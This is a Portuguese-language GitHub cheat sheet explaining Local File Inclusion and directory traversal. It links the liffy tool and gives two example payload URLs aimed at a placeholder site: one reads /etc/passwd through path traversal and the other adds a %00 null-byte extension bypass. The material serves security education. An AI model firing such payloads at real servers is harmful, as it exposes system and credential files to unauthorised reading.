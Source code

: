 <img width=100% src="https://capsule-render.vercel.app/api?type=waving&color=0000ff&height=120&section=header"/>

[![Typing SVG](https://readme-typing-svg.herokuapp.com/?color=0000ff&size=32&center=true&vCenter=true&width=1000&height=40&lines=Oque+é+Local+File+Inclusion?)](https://git.io/typing-svg)
> É uma vulnerabilidade em aplicações web que permite o invasor incluir arquivos locais arbitrários do servidor. Dessa forma podendo ler arquivos que contenha credenciais, arquivos confidenciais e até mesmo podendo a levar a um RCE, utilizando a técnica de Log Poisoning e Directory Traversal.

![CSRF_cheatsheet](./img/directory-traversal.svg)

<h1>Ferramentas</h1>

* [LFFY](https://github.com/mzfr/liffy)

<h1>Truques</h1>

### LFI e Directory Traversal Básico

Utilizando a técnica de Directory traversal para ler o contéudo do arquivo "/etc/passwd" que é bastante utilizado para confirmar a vulnerabilidade.

```yaml
https://www.teste.com.br/arquivo.php?img=../../../../../../../../../etc/passwd
```
### Bypass PHP Extension utilizando Null Byte

```yaml
https://www.teste.com.br/arquivo.php?img=../../../../../etc/passwd%00
```
